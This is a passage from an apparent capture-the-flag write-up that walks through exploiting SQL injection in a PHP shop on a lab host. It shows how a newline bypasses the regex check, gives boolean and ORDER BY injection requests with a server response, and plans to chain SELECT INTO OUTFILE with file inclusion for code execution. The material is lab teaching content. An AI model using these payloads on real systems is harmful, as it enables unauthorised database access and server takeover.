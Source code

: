 The query used to get the product was vulnerable to SQL Injection. The comment above it made it clear. The query used a prepared statement, but it inserted the product ID directly into the query instead of using parameters. So the query was vulnerable.

The code was using a regular expression to validate the ID. The regex was using a reject list to make sure the ID only contains numbers. But I could send a [multiline](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#preg_match-.) ID to bypass the validation.

I started with a simple query to validate it.

```http
GET /shop/index.php?page=product&id=%0a20'%20OR%201=1--%20-1 HTTP/1.1
Host: target.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Cookie: PHPSESSID=kfcu02o7lt7hifcejonm6v3m0b
Upgrade-Insecure-Requests: 1
```

It returned the first product. I tried with a query that would not return anything.

```http
GET /shop/index.php?page=product&id=%0a20'%20OR%201!=1--%20-1 HTTP/1.1
```

```http
HTTP/1.1 200 OK
Date: Sun, 22 Oct 2023 13:22:01 GMT
Server: Apache/2.4.54 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 23
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Product does not exist!
```

### Code Execution

With that information, I could use two vulnerabilities together to get code execution on the server. The SQL injection allowed me to use [Select Into Outfile](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) to write a file to the server. Then the LFI in the shop would allow me to execute the file, as long as it had the 'php' extension.

I used `Order By` to find how many columns were returned by the query.

```
GET /shop/index.php?page=product&id=%0a2'%20order%20by%208--%20-1 HTTP/1.1
```

I used this to test if I could write a file on the server.
